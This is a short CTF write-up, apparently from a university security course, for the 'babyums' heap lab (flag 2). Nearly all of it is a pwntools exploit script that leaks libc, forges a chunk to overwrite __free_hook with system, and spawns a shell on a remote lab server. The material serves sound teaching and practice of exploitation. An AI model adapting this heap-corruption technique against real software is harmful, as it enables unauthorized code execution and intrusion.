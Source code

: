 ```yaml
---
title: Simple PWN 0x20(Lab - `babyums` - flag 2)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN 0x20(Lab - `babyums` - flag 2)
<!-- more -->
###### tags: `CTF` `PWN` `eductf`

Version: Ubuntu 20.04

## Original Code
[Simple PWN 0x19(Lab - `babyums` - flag 1)](/2bR8lalySvKfA7Zr8DOhuA)


## Exploit
Very similar in this article: [0x18(Lab - `babynote`)](/zj3FTgxZQ22EgRPn1KHUSg)
:::spoiler code
```python=
from pwn import *

# r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10008)

context.arch = 'amd64'

def add_user(idx, user_name, user_passwd):
    r.sendafter(b'> ', b'1')
    r.sendlineafter(b'index\n> ', str(idx))
    r.sendafter(b'username\n> ', user_name)
    r.sendafter(b'password\n> ', user_passwd)

def edit_data(idx, note_size, message):
    r.sendafter(b"> ", b"2")
    r.sendlineafter(b'index\n> ', str(idx))
    r.sendlineafter(b'size\n> ', str(note_size))
    r.send(message)

def del_user(idx):
    r.sendafter(b"> ", b"3")
    r.sendlineafter(b'index\n> ', str(idx))

def show_user():
    r.sendafter(b"> ", b"4")


'''------------------
Construct heap memory
------------------'''
add_user(0, b'a'*8, b'aaaa')
edit_data(0, 0x418, b'a')

add_user(1, b'b'*8, b'bbbb')
edit_data(1, 0x18, b'b')

add_user(2, b'c'*8, b'cccc')

'''------------------
Leak libc address
------------------'''
del_user(0)
show_user()
r.recvuntil(b'data:')
libc = (u64(r.recv(8)) >> 8) - 0x1ecbe0 - 0xa000000000000
info(f"libc address: {hex(libc)}")
free_hook_addr = libc + 0x1eee48
info(f"__free_hook address: {hex(free_hook_addr)}")
libc_sys_addr = libc + 0x52290
info(f"__libc_system address: {hex(libc_sys_addr)}")

'''------------------
Construct fake chunk
------------------'''
data = b'/bin/sh\x00'.ljust(0x10, b'b')
fake_chunk = flat(
    0, 0x31,
    b'cccccccc', b'cccccccc',
    b'cccccccc', b'cccccccc',
    free_hook_addr
)

edit_data(1, 0x48, data + fake_chunk)
edit_data(2, 0x8, p64(libc_sys_addr))
del_user(1)

r.interactive()
```
:::